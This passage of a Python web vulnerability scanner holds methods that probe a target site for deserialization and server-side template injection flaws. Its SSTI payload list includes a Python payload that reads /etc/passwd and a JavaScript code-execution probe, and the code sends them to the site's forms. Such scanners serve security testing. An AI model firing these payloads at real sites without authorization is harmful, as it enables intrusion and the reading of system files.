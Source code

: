 ```python
            try:
                response = self.session.get(self.target_url, timeout=10)
                
                # Check for deserialization errors or success indicators
                if ('unserialize' in response.text or 
                    'deserialization' in response.text or
                    'test_deserialization_payload' in response.text):
                    vuln_info = f"Potential deserialization vulnerability with cookie: {cookie_name}"
                    self.vulnerabilities.append(vuln_info)
                    print(f"  [!] {vuln_info}")
                    
            except requests.RequestException:
                continue
        
        print(f"  Tested deserialization vulnerabilities")
    
    def test_template_injection(self):
        """Test for Server-Side Template Injection (SSTI)"""
        print("\n[+] Testing template injection...")
        
        # SSTI payloads for different template engines
        ssti_payloads = [
            "{{7*7}}",  # Jinja2, Twig
            "${7*7}",   # FreeMarker
            "#{7*7}",   # Ruby
            "<%= 7*7 %>",  # ERB
            "{{= 7*7 }}",  # Mustache
            "{{''.constructor.constructor('alert(1)')()}}",  # JavaScript
            "{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}"  # Python
        ]
        
        # Test forms for SSTI
        for form in self.forms[:2]:  # Limit for demo
            form_action = urljoin(self.target_url, form['action'])
            
            for payload in ssti_payloads[:3]:  # Test first 3 payloads
                form_data = {}
                for input_field in form['inputs']:
                    if input_field['name'] and input_field['type'] != 'hidden':
                        form_data[input_field['name']] = payload
                
                try:
                    if form['method'] == 'POST':
                        response = self.session.post(form_action, data=form_data, timeout=10)
                    else:
                        response = self.session.get(form_action, params=form_data, timeout=10)
                    
                    # Check if mathematical expression was evaluated
                    if '49' in response.text and payload in ['{{7*7}}', '${7*7}', '#{7*7}']:
                        vuln_info = f"Template injection vulnerability at {form_action}"
                        self.vulnerabilities.append(vuln_info)
                        print(f"  [!] {vuln_info}")
                        break
                        
                except requests.RequestException:
                    continue
        
        print(f"  Tested template injection vulnerabilities")
    
    def test_race_conditions(self):
        """Test for race condition vulnerabilities"""
        print("\n[+] Testing race conditions...")
```